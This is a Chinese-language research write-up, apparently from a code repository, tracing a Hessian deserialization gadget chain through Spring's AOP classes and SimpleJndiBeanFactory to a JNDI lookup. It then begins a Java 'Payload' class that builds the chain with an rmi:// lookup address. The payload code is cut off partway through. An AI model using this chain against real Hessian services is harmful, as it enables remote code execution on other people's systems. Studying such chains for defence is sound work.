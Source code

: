 ![image-20230314162108276](images/56.png)

首先判断advice是否为空，为空的话进到else逻辑，会判断adviceBeanName和beanFactory两个参数是否为空，当然会，然后我们这里的if判断因为还不确定是哪一个类，我们来关注到`org.springframework.jndi.support#SimpleJndiBeanFactory`的getBean方法

![image-20230314162334050](images/57.png)

这里的三目运算符的判断和上面那个if一样的，说明我们要进入这个getBean话，就会调用doGetSingleton方法

![image-20230314163716720](images/58.png)

跟进这里的lookup

![image-20230314163744522](images/59.png)

继续跟进

![image-20230314163801737](images/60.png)

![image-20230314163821667](images/61.png)

这里根据传进来的name调用了InitialContext的lookup方法

# Spring AOP & Context

## 漏洞复现

```
package Unser.Hessians.SpringContextAop;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.aspectj.lang.annotation.Aspect;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.misc.ASCIICaseInsensitiveComparator;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;

public class Payload {
    public static <T> T createWithoutConstructor(Class clazz)  throws Exception{
       Constructor constructor = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz,Object.class.getDeclaredConstructor());
       constructor.setAccessible(true);
       return (T) constructor.newInstance();
    }
    public static void main(String[] args) throws Exception{
        String name = "rmi://127.0.0.1:1099/exp";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        BeanFactoryAspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
```